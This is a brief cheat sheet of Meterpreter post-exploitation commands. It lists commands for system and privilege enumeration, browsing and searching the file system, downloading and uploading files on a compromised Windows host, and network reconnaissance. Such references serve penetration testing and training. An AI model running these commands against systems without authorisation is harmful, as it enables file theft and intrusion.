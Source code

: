 ## Meterpreter Commands

### System Information
```bash
# System info
sysinfo

# Get user info
getuid

# Get privileges
getprivs

# Process list
ps

# Environment variables
getenv
```

### File System Operations
```bash
# Change directory
cd C:\\

# List directory
ls
dir

# Print working directory
pwd
getwd

# Download file
download C:\\file.txt /tmp/

# Upload file
upload /tmp/file.txt C:\\

# Search files
search -f *.txt -d C:\\
```

### Network Operations
```bash
# Network configuration
ipconfig
ifconfig

# Routing table
route

# Network connections
netstat

# ARP table
arp
```
